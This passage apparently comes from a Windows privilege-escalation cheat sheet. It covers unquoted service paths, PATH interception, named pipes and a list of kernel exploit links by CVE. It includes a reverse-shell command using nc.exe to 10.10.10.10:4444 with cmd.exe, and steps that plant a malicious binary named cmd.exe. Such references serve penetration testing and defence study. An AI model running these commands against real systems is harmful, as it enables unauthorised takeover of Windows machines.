     # automatic exploit
    Invoke-ServiceAbuse -Name [SERVICE_NAME] -Command "..\..\Users\Public\nc.exe 10.10.10.10 4444 -e cmd.exe"
    ```

#### Example

For `C:\Program Files\something\legit.exe`, Windows will try the following paths first:

* `C:\Program.exe`
* `C:\Program Files.exe`

### EoP - $PATH Interception

Requirements:

* PATH contains a writeable folder with low privileges.
* The writeable folder is _before_ the folder that contains the legitimate binary.

EXAMPLE:

```powershell
# List contents of the PATH environment variable
# EXAMPLE OUTPUT: C:\Program Files\nodejs\;C:\WINDOWS\system32
$env:Path

# See permissions of the target folder
# EXAMPLE OUTPUT: BUILTIN\Users: GR,GW
icacls.exe "C:\Program Files\nodejs\"

# Place our evil-file in that folder.
copy evil-file.exe "C:\Program Files\nodejs\cmd.exe"
```

Because (in this example) "C:\Program Files\nodejs" is _before_ "C:\WINDOWS\system32" on the PATH variable, the next time the user runs "cmd.exe", our evil version in the nodejs folder will run, instead of the legitimate one in the system32 folder.

### EoP - Named Pipes

1. Find named pipes: `[System.IO.Directory]::GetFiles("\\.\pipe\")`
2. Check named pipes DACL: `pipesec.exe <named_pipe>`
3. Reverse engineering software
4. Send data throught the named pipe : `program.exe >\\.\pipe\StdOutPipe 2>\\.\pipe\StdErrPipe`

### EoP - Kernel Exploitation

List of exploits kernel : [https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

**#Security Bulletin   #KB     #Description    #Operating System**

* [MS17-017](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS17-017) 　\[KB4013081]　　\[GDI Palette Objects Local Privilege Escalation]　　(windows 7/8)
* [CVE-2017-8464](https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-8464) 　\[LNK Remote Code Execution Vulnerability]　　(windows 10/8.1/7/2016/2010/2008)
* [CVE-2017-0213](https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213) 　\[Windows COM Elevation of Privilege Vulnerability]　　(windows 10/8.1/7/2016/2010/2008)
* [CVE-2018-0833](https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2018-0833) \[SMBv3 Null Pointer Dereference Denial of Service] (Windows 8.1/Server 2012 R2)
* [CVE-2018-8120](https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2018-8120) \[Win32k Elevation of Privilege Vulnerability] (Windows 7 SP1/2008 SP2,2008 R2 SP1)
* [MS17-010](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS17-010) 　\[KB4013389]　　\[Windows Kernel Mode Drivers]　　(windows 7/2008/2003/XP)
* [MS16-135](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-135) 　\[KB3199135]　　\[Windows Kernel Mode Drivers]　　(2016)